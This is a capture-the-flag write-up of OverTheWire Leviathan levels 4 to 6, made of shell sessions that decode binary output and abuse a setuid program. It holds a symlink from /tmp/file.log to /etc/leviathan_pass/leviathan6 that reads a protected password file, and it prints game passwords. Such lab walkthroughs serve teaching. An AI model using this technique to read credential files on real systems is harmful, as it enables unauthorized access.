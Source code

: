 This one required a bit of *bash-fu* but nothing to worry about...

```bash
$ ssh leviathan4@leviathan.labs.overthewire.org -p 2223

leviathan4@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root root        675 May 15  2017 .profile
dr-xr-x---  2 root leviathan4 4096 Oct 29 21:17 .trash
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ls
bin
leviathan4@leviathan:~/.trash$ ./bin 
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
leviathan4@leviathan:~/.trash$ ./bin | sed 's/ //g' | perl -lpe '$_=pack"B*",$_'
Tith4cokei
```

## Level 05 Solution

Symbolic links ftw !

```bash
$ ssh leviathan5@leviathan.labs.overthewire.org -p 2223

leviathan5@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Oct 29 21:17 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ echo foo > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
foo
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

## Level 06 Solution

Quick and dirty.

```bash
$ ssh leviathan6@leviathan.labs.overthewire.org -p 2223

leviathan6@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Oct 29 21:17 leviathan6
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ ./leviathan6 1234
```